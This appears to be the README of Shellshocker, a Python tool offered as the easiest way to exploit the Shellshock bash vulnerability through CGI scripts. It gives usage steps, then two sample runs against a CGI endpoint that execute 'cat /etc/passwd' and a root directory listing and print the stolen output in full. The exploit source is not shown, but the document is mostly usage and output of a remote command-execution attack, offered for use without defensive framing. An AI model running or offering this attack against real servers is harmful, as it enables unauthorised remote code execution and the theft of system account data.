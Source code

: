 # Shellshocker
Shellshock easily exploitation

When you find Shellshock / Bashbug vulnerability and want the easiest way to exploit it, you can use Shellshocker.
Shellshocker suggests to avoid user-agent spoofing on-hand. In contrast to that it has a nice shell-interface.

### Usage:
  1. Run the script with python: "python shellshocker.py http://exam.com/cgi-bin/cat"


  2. Hit command and press enter: "cat /etc/passwd"


  3. Read the output :)

### Requirements:
  1. Python  
  2. Mechanize (Can installed by: 'sudo pip install mechanize')

### Examples:
```sh
/.../shellshocker python shellshocker.py http://10.0.0.12:591/cgi-bin/cat
Shellshock Command: cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
saslauth:x:499:76:"Saslauthd user":/var/empty/saslauth:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
bynarr:x:500:501::/home/bynarr:/bin/bash
apache:x:48:48:Apache:/var/www:/sbin/nologin
apophis:x:501:502::/home/apophis:/bin/bash
```

```sh
/.../shellshocker python shellshocker.py http://10.0.0.12:591/cgi-bin/cat
Shellshock Command: ls -lath /

total 101K
drwxrwxrwt.   3 root    root    4.0K Feb  9 22:20 tmp
drwxr-xr-x   17 root    root    3.5K Feb  9 21:14 dev
dr-xr-xr-x.  22 root    root    4.0K Feb  9 21:14 .
dr-xr-xr-x.  22 root    root    4.0K Feb  9 21:14 ..
-rw-r--r--    1 root    root       0 Feb  9 21:14 .autofsck
drwxr-xr-x.  61 root    root    4.0K Feb  9 21:14 etc
drwxr-xr-x   13 root    root       0 Feb  9 21:14 sys
dr-xr-xr-x  110 root    root       0 Feb  9 21:14 proc
dr-xr-x---.   2 root    root    4.0K Jan 15  2015 root
dr-xr-xr-x.   2 root    root    4.0K Dec 30  2014 bin
drwxr-xr-x.  19 root    root    4.0K Dec 30  2014 var
dr-xr-xr-x.   9 root    root     12K Dec 30  2014 lib64
dr-xr-xr-x.   2 root    root     12K Dec 30  2014 sbin
drwxr-xr-x.   4 root    root    4.0K Dec 30  2014 home
-rw-r--r--    1 root    root       0 Nov 12  2014 .autorelabel
dr-xr-xr-x.   8 root    root    4.0K Nov 12  2014 lib
dr-xr-xr-x.   4 root    root    4.0K Nov 12  2014 boot
drwxr-xr-x.  13 root    root    4.0K Nov 12  2014 usr
drwxr-xr-x.   2 root    root    4.0K Nov 12  2014 selinux
drwx------.   2 root    root     16K Nov 12  2014 lost+found
drwxr-xr-x.   2 root    root    4.0K Sep 23  2011 media
drwxr-xr-x.   2 root    root    4.0K Sep 23  2011 opt
drwxr-xr-x.   2 root    root    4.0K Sep 23  2011 srv
drwxr-xr-x    2 apophis apophis  512 Jan  1  1970 mnt
```
